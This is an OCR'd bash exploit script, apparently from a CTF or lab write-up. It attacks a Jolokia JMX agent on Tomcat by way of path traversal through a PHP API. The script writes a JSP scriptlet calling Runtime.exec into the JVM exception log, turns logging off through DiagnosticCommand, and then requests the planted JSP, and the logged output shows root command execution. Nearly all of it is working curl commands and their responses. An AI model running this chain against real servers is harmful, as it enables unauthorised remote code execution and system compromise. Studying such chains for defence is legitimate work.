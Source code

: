 ```bash
#string(3076) "{"stacktrace":"java.lang.IllegalArgumentException: No type with name 'win<%=new java.util.Scanner(Runtime.getRuntime().exec(\"id\").getInputStream()).useDelimiter(\"pouetpouet\").next()%>win' exists\n\tat org.jolokia.util.RequestType.getTypeByName(RequestType.java:69)\n\tat org.jolokia.request.JmxRequestFactory.createGetRequest(JmxRequestFactory.java:94)\n\tat org.jolokia.http.HttpRequestHandler.handleGetRequest(HttpRequestHandler.java:79)\n\tat org.jolokia.http.AgentServlet$4.handleRequest(AgentServlet.java:470)\n\tat org.jolokia.http.AgentServlet.handleSecurely(AgentServlet.java:350)\n\tat org.jolokia.http.AgentServlet.handle(AgentServlet.java:321)\n\tat org.jolokia.http.AgentServlet.doGet(AgentServlet.java:277)\n\tat javax.servlet.http.HttpServlet.service(HttpServlet.java:634)\n\tat javax.servlet.http.HttpServlet.service(HttpServlet.java:741)\n\tat org.apache.catalina.core.ApplicationFilterChain.internalDoFilter(ApplicationFilterChain.java:231)\n\tat org.apache.catalina.core.ApplicationFilterChain.doFilter(ApplicationFilterChain.java:166)\n\tat org.apache.tomcat.websocket.server.WsFilter.doFilter(WsFilter.java:53)\n\tat org.apache.catalina.core.ApplicationFilterChain.internalDoFilter(ApplicationFilterChain.java:193)\n\tat org.apache.catalina.core.ApplicationFilterChain.doFilter(ApplicationFilterChain.java:166)\n\tat org.apache.catalina.core.StandardWrapperValve.invoke(StandardWrapperValve.java:200)\n\tat org.apache.catalina.core.StandardContextValve.invoke(StandardContextValve.java:96)\n\tat org.apache.catalina.authenticator.AuthenticatorBase.invoke(AuthenticatorBase.java:490)\n\tat org.apache.catalina.core.StandardHostValve.invoke(StandardHostValve.java:139)\n\tat org.apache.catalina.valves.ErrorReportValve.invoke(ErrorReportValve.java:92)\n\tat org.apache.catalina.valves.AbstractAccessLogValve.invoke(AbstractAccessLogValve.java:668)\n\tat org.apache.catalina.core.StandardEngineValve.invoke(StandardEngineValve.java:74)\n\tat org.apache.catalina.connector.CoyoteAdapter.service(CoyoteAdapter.java:343)\n\tat org.apache.coyote.http11.Http11Processor.service(Http11Processor.java:408)\n\tat org.apache.coyote.AbstractProcessorLight.process(AbstractProcessorLight.java:66)\n\tat org.apache.coyote.AbstractProtocol$ConnectionHandler.process(AbstractProtocol.java:834)\n\tat org.apache.tomcat.util.net.NioEndpoint$SocketProcessor.doRun(NioEndpoint.java:1415)\n\tat org.apache.tomcat.util.net.SocketProcessorBase.run(SocketProcessorBase.java:49)\n\tat java.base\/java.util.concurrent.ThreadPoolExecutor.runWorker(ThreadPoolExecutor.java:1128)\n\tat java.base\/java.util.concurrent.ThreadPoolExecutor$Worker.run(ThreadPoolExecutor.java:628)\n\tat org.apache.tomcat.util.threads.TaskThread$WrappingRunnable.run(TaskThread.java:61)\n\tat java.base\/java.lang.Thread.run(Thread.java:834)\n","error_type":"java.lang.IllegalArgumentException","error":"java.lang.IllegalArgumentException : No type with name 'win<%=new java.util.Scanner(Runtime.getRuntime().exec(\"id\").getInputStream()).useDelimiter(\"pouetpouet\").next()%>win' exists","status":400}"

sleep 1
# End log file, stop adding garbage
curl -i -k -X PUT 'http://0.0.0.0:8443/api.php?arg1=1&arg2=global/../../../../../jolokia/exec/com.sun.management:type=DiagnosticCommand/vmLog/disable%23'

#HTTP/1.1 200 OK   
#Host: 0.0.0.0:8443                                                                                                                                                                            
#Date: Sun, 28 Feb 2021 02:11:12 GMT
#Connection: close          
#X-Powered-By: PHP/8.1.0-dev           
#Content-type: text/html; charset=UTF-8
#                                                                                                                                                                                               
#string(170) "{"request":{"mbean":"com.sun.management:type=DiagnosticCommand","arguments":["disable"],"type":"exec","operation":"vmLog"},"value":"","timestamp":1614478272,"status":200}"


# Query our jsp and execute code
curl -i -k -X PUT 'http://0.0.0.0:8443/api.php?arg1=1&arg2=global/../../../../../jsp.jsp%23' | grep uid | head -n 1

#[20.624s][info][exceptions       ] Exception <a 'java/lang/IllegalArgumentException'{0x00000000c5bc01b8}: 
# No type with name 'winuid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
```
